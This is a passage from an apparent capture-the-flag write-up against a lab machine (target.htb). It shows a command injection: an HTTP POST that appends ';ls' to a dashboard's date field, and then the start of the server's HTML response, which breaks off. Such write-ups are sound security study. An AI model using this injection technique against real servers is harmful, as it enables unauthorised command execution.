 It worked.

## Remote Code Execution

The dashboard had only one functionality. It generated a health report for a date. It seemed to always give the same response, even with invalid dates.

I tried sending it a command to run.

```http
POST /dashboard HTTP/1.1
Host: target.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://target.htb:5000
Connection: keep-alive
Referer: http://target.htb:5000/dashboard
Cookie: is_admin=REDACTED
Upgrade-Insecure-Requests: 1

date=2023-09-16;ls
```

It got executed.

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sun, 09 Jun 2024 14:00:17 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2136
Connection: close

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Administrator Dashboard</title>
    <link rel="stylesheet" href="styles.css">
    <style>
        body {
            background-color: #f4f4f4;
            font-family: Arial, sans-serif;
        }

        .container {
            background-color: #fff;
            border-radius: 5px;
            box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.2);
            padding: 20px;
            margin: 20px auto;
            max-width: 400px;
        }

        h1 {
            color: #333;
        }

        label {
            display: block;
```
